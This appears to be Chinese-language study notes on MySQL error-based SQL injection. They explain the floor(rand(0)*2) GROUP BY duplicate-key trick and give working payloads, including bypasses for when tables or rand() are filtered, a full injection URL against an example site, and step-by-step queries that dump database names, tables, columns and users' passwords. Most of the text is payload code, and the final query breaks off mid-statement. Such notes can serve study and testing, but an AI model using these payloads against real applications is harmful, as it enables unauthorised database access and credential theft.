 报错注入在没法用union联合查询时用，但前提还是不能过滤一些关键的函数

报错注入就是利用了数据库的某些机制，认为的制造错误条件，使得查询结果能够  
出现在错误信息中。

构造payload 让信息通过错误提示回显出来

```mysql
select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) a from information_schema.columns group by a;
```

参考：[https://www.freebuf.com/column/235496.html](https://www.freebuf.com/column/235496.html)

**floor()**

> floor(x)
>
> 返回小于或等于 x 的最大整数　　

```mysql
SELECT FLOOR(1.5) 
-- 返回1
```

```mysql
select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2))
a from information_schema.columns group by a;
```

以上语句可以简化成如下的形式。

```mysql
select count(*) from information_schema.tables group by concat(version(), floor(rand(0)*2))
```

如果关键的表被禁用了，可以使用这种形式

```mysql
select count(*) from (select 1 union select null union
select !1) group by concat(version(),floor(rand(0)*2))
```

如果rand 被禁用了可以使用用户变量来报错

```mysql
select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
```

```mysql
爆库
select 1 from ( select count(*),(concat((select schema_name from information_schema.schemata limit
0,1),’|’,floor(rand(0)*2)))x from information_schema.tables group by x )a;
http://www.hackblog.cn/sql.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct
concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit
0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
爆表
select 1 from (select count(*),(concat((select table_name from information_schema.tables where
table_schema=database() limit 0,1),’|’,floor(rand(0)*2)))x from information_schema.tables group by x)a;
爆字段
select 1 from (select count(*),(concat((select column_name from information_schema.columns where
table_schema=database() and table_name=‘users’ limit 0,1),’|’,floor(rand(0)*2)))x from information_schema.tables
group by x)a;
爆数据
select 1 from (select count(*),(concat((select concat(name,’|’,passwd,’|’,birth) from users limit
0,1),’|’,floor(rand(0)*2)))x from information_schema.tables group by x)a;
select 1 from(select count(*),concat((select (select (SELECT concat(0x23,name,0x3a,passwd,0x23) FROM users limit
```